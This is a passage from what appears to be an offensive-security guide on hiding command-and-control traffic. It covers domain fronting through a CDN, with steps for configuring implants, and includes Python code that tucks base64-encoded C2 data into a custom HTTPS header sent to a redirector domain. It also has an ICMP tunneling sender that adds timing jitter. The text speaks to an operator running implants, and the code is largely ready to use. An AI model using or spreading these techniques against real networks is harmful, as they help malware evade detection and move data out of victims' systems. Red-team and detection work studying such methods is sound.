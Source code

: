 2. **Put your C2 server behind the CDN**: Configure it to accept requests forwarded based on the Host header.

3. **Configure your implants**: Update them to use domain fronting - connect to the trusted domain but set your C2 server in the Host header.

4. **Watch for CDN policy changes**: CDN providers keep updating their policies on domain fronting. Be ready to adapt if they start blocking it.

While domain fronting has gotten harder as CDN providers crack down, variations like "domain hiding" still work in similar ways.

### Protocol Encapsulation

Protocol encapsulation means hiding your C2 traffic inside other protocols to avoid detection. This works because some protocols get less scrutiny or are harder to inspect deeply.

Here's an example of hiding C2 data in normal-looking HTTPS requests:

```python
def encapsulate_in_https(c2_data):
    """Encapsulate C2 data in a legitimate-looking HTTPS request"""
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
        'Accept': 'text/html,application/xhtml+xml',
        'Accept-Language': 'en-US,en;q=0.9',
        'Referer': 'https://www.google.com/',
        'X-Custom-Data': base64.b64encode(c2_data).decode('utf-8')
    }
    
    # Add randomized legitimate parameters
    params = {
        'id': str(random.randint(10000, 99999)),
        'session': ''.join(random.choices('abcdefghijklmnopqrstuvwxyz0123456789', k=16)),
        'utm_source': random.choice(['google', 'bing', 'facebook', 'twitter'])
    }
    
    return requests.get('https://redirector-domain.com/blog/article', headers=headers, params=params)
```

This function disguises C2 traffic as normal web browsing by:
- Using realistic browser headers
- Adding common query parameters like you'd see in normal web traffic
- Hiding the C2 data in a custom header
- Using plausible URLs that look like normal browsing

Other good protocols for encapsulation include:

1. **ICMP Tunneling**: Hiding data in ping packets, which often pass through firewalls easily.

```python
def icmp_tunnel_send(c2_data, target_ip):
    """Send C2 data in ICMP packets"""
    # Split data into chunks to fit in ICMP packets
    chunks = [c2_data[i:i+32] for i in range(0, len(c2_data), 32)]
    
    for i, chunk in enumerate(chunks):
        # Create an ICMP echo request with data in the payload
        packet = IP(dst=target_ip)/ICMP(type=8, seq=i)/Raw(load=chunk)
        send(packet, verbose=0)
        time.sleep(random.uniform(0.1, 0.5))  # Add jitter
```
